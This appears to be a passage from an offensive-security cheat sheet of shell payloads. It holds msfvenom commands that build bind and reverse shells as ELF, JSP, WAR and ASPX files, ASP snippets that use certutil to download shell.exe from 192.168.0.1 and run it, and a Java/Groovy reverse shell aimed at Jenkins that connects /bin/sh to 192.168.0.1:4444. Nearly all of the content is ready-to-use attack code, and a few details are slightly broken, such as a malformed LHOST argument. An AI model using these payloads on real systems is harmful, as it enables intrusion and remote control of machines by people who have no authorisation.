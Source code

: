 *Bind Shell:*
```bash
msfvenom -p linux/x64/shell/bind_tcp LHOST=192.168.0.1 -f elf > rev_shell.elf
```

### Java Server Pages (.jsp)
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST192.168.0.1 LPORT=4444 -f raw > shell.jsp
```

*As .war:*
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.0.1 LPORT=4444 -f war -o shell.war
```

### Active Sever Pages Extended (.aspx)
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.1 LPORT=4444 -f aspx -o rev_shell.aspx
```

***

## Active Sever Pages Extended (.aspx)

### Transfer A File (Certutil)
```bash
<% 
Set rs = CreateObject("WScript.Shell")
Set cmd = rs.Exec("cmd /c certutil.exe -urlcache -f http://192.168.0.1/shell.exe C:\Windows\Temp\shell.exe")
o = cmd.StdOut.Readall()
Response.write(o)
%>
```

### Execute a File
```bash
<% 
Set rs = CreateObject("WScript.Shell")
Set cmd = rs.Exec("cmd /c C:\Windows\Temp\shell.exe")
o = cmd.StdOut.Readall()
Response.write(o)
%>
```

***

## Jenkins / Groovy (Java)

### Linux Reverse Shell
```Java
String host="192.168.0.1";
int port=4444;
String cmd="/bin/sh";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
